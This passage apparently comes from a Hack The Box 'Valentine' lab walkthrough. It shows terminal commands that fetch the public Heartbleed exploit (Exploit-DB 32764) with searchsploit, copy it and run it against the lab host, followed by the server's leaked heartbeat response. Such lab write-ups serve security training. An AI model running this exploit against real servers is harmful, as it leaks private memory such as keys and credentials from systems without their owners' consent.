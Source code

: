 ```bash
Shellcodes: No Results
                                                                                                                
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]
└─$ searchsploit -m 32764.py                                                                                      1 ⨯
  Exploit: OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)
      URL: https://www.exploit-db.com/exploits/32764
     Path: /usr/share/exploitdb/exploits/multiple/remote/32764.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /hackthebox/oscp-prep/valentine/32764.py

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]
└─$ cp 32764.py heartbleed.py
```

There is the exploit, I execute it. I scrolled through the output and found this:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/valentine]                                                                                                                                                                                          
└─$ python heartbleed.py valentine.htb                                                                                                                                                                                                       
Trying SSL 3.0...                                                                                                                                                                                                                            
Connecting...                                                                                                                                                                                                                                
Sending Client Hello...                                                                                                                                                                                                                      
Waiting for Server Hello...                                                                                                                                                                                                                  
 ... received message: type = 22, ver = 0300, length = 94                                                                                                                                                                                    
 ... received message: type = 22, ver = 0300, length = 885                                                                                                                                                                                   
 ... received message: type = 22, ver = 0300, length = 331                                                                                                                                                                                   
 ... received message: type = 22, ver = 0300, length = 4                                                                                                                                                                                     
Sending heartbeat request...                                                                                                                                                                                                                 
 ... received message: type = 24, ver = 0300, length = 16384                                                                                                                                                                                 
Received heartbeat response:                                                                                                                                                                                                                 
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...                                                                                                                                                                    
```